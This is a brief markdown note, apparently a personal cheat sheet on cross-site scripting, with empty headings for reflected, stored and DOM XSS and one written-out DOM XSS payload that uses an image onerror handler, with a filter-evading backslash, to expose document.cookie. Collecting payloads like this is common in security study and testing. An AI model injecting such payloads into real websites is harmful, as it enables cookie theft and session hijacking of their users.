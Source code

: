 # XSS
***
## Reflected XSS
***
## Stored XSS
***
## DOM XSS
***
### ==Payload:== #"><i\mg src=/ onerror=alert(document.cookie)>